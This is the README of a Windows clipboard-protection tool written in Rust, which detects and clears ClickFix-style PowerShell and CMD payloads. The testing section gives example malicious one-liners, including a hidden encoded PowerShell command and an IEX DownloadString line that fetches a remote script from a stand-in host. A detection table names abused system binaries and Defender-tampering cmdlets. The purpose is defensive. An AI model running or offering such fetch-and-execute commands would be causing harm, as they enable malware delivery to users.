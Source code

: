 🛡️ ClickFix Shield

By Josiah Golden

A lightweight Windows clipboard protection tool built in Rust.
ClickFix Shield detects and blocks suspicious PowerShell or CMD payloads copied to your clipboard —
preventing “ClickFix”-style malvertising attacks before they ever reach your system.


⚙️ What It Does

🧠 Monitors your clipboard for dangerous patterns (PowerShell, CMD, Base64 payloads)

🛑 Automatically clears malicious text before it can be pasted or executed

💾 Logs events to C:\ProgramData\ClickfixShield\shield.log

🪟 Runs silently in the system tray (no console window)

⏸️ Tray menu lets you Pause, Resume, Open Logs, Edit Config, or Exit


🚨 Why It Matters

Modern “ClickFix” and malvertising campaigns trick users into pasting one-liners like:

powershell -nop -w hidden -enc SGVsbG8=


ClickFix Shield intercepts those strings and wipes them before they can run, turning a potential compromise into a harmless copy-paste.


🧩 How It Works

Built in Rust 1.80+

Uses clipboard-win to monitor the Windows clipboard

Detects suspicious patterns via regex

Displays alerts with native Windows APIs (MessageBoxW)

System-tray interface built with tray-icon and tao

Configurable rules stored in JSON (C:\ProgramData\ClickfixShield\config.json)


🧠 Detection Patterns

| **Category**           | **Examples Matched**                        | **Description**                                                            |
| ---------------------- | ------------------------------------------- | -------------------------------------------------------------------------- |
| **LOLBINs**            | `mshta`, `rundll32`, `certutil`, `wmic`     | Living-off-the-land binaries often abused to execute or retrieve payloads. |
| **PowerShell Abuse**   | `IEX`, `DownloadString`, `FromBase64String` | Code execution directly from memory or remote sources.                     |
| **Run-box Commands**   | `powershell ...`, `cmd /c ...`              | Commands likely pasted into Run or terminal prompts.                       |
| **Defender Tampering** | `Set-MpPreference`, `Add-MpPreference`      | Attempts to disable or exclude Windows Defender protections.               |
| **Encoded Payloads**   | Long Base64 strings                         | Obfuscated content typically used for malware delivery.                    |


You can whitelist safe text patterns in config.json via the allow_regex array.


🧰 Installation & Setup

1️⃣ Download or build the binary

cargo build --release


Copy target\release\clickfix-shield.exe to:
C:\ProgramData\ClickfixShield\clickfix-shield.exe

2️⃣ (Recommended) Register Scheduled Task for Auto-Start

Run PowerShell as Admin:

$exe = "C:\ProgramData\ClickfixShield\clickfix-shield.exe"
$taskName = "ClickFixShield"

if (Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue) {
    Unregister-ScheduledTask -TaskName $taskName -Confirm:$false
}

$action = New-ScheduledTaskAction -Execute $exe
$trigger = New-ScheduledTaskTrigger -AtLogOn
$principal = New-ScheduledTaskPrincipal -UserId $env:USERNAME -LogonType Interactive -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -Hidden

Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Principal $principal -Settings $settings

3️⃣ Run it once

start "" "C:\ProgramData\ClickfixShield\clickfix-shield.exe"


It will appear in your tray and start monitoring instantly.


🧪 Test It

Copy any of these into your clipboard:

powershell -nop -w hidden -enc SGVsbG8=

IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')

cmd /c calc.exe

✅ The clipboard clears, an alert appears, and the event is logged.


⚡ Configuration

File: C:\ProgramData\ClickfixShield\config.json

{
  "allow_regex": [
    "^Hello world$",
    "^.*my-safe-snippet.*$"
  ],
  "poll_ms": 300
}


allow_regex: List of safe patterns to skip

poll_ms: Clipboard polling interval (ms)


📦 Build Info

| Field    | Value                         |
| -------- | ----------------------------- |
| Language | Rust                          |
| Version  | 0.2.0                         |
| Platform | Windows 10 / 11               |
| Author   | Josiah Golden (@josiahgolden) |



📸 Screenshots (coming soon)

(Add a screenshot of your tray icon and alert popup here.)


🙌 Credits

Created by Josiah Golden (2025)
Built with 🦀 Rust and a mission to make security simpler for everyone.


💬 Connect

LinkedIn: [linkedin.com/in/josiahgolden](https://www.linkedin.com/in/josiah-golden/)

Youtube: https://youtube.com/@josiahgold3n?si=02n0UaLYue1tVbgk

Instagram: https://www.instagram.com/josiahgold3n/

GitHub: github.com/josiahgolden